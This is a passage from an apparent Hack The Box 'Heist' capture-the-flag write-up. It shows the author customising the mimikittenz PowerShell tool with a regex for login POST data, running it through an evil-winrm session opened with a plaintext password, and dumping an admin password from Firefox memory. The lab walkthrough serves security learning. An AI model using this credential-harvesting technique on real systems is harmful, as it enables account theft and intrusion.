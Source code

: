     ────▀▄▄▀▀▀▀▄▄▀▀▀▀▀▀▄▄▀▀▀▀▀▀▄▄▀────────
    *Evil-WinRM* PS C:\Users\Chase\Documents>
    

That’s because I want to catch chase logging into Heist, not Gmail or GitHub
or any well known site. I’ll create a copy of the `ps1` file, and scroll to
the bottom. I’ll add a regex based on the Heist POST request:

    
    
        # HTB-Heist
        [mimikittenz.MemProcInspector]::AddRegex("Heist","login_username=.{1,20}@.{1,20}&login_password=.{1,50}&login=")
    

Also, I’ll edit the line towards the end to tell it to just look at firefox,
removing IE and Chrome:

    
    
    $matchesFound=[mimikittenz.MemProcInspector]::InspectManyProcs("firefox")
    

Now, I’ll upload that to a new session of `evil-winrm`, and run it:

    
    
    root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\chase -s ~/pshs/ -p 'Q4)sJu\Y8qz*A3?d'                                                            
    
    Info: Starting Evil-WinRM shell v1.6
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Chase\Documents> Invoke-mimikittenz-heist.ps1
    *Evil-WinRM* PS C:\Users\Chase\Documents> Invoke-mimikittenz
    ───▐▀▄──────▄▀▌───▄▄▄▄▄▄▄─────────────
    ───▌▒▒▀▄▄▄▄▀▒▒▐▄▀▀▒██▒██▒▀▀▄──────────
    ──▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄────────
    ──▌▒▒▒▒▒▒▒▒▒▒▒▒▒▄▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄──────
    ▀█▒▒█▌▒▒█▒▒▐█▒▒▀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌─────
    ▀▌▒▒▒▒▒▀▒▀▒▒▒▒▒▀▀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐───▄▄
    ▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌▄█▒█
    ▐▒▒▒▒mimikittenz-1.0-alpha▒▒▒▒▒▒▒▒▒▐▒█▀─
    ▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐▀───
    ▐▒▒▒▒▒▒CAN I HAZ WAM?▒▒▒▒▒▒▒▒▒▒▒▒▌────
    ─▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐─────
    ─▐▒▒▒jamieson@dringensec.com▒▒▒▒▌─────
    ──▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐──────
    ──▐▄▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▄▌──────
    ────▀▄▄▀▀▀▀▄▄▀▀▀▀▀▀▄▄▀▀▀▀▀▀▄▄▀────────
    
    PatternName PatternMatch
    ----------- ------------
    Heist       login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    

I get the password!
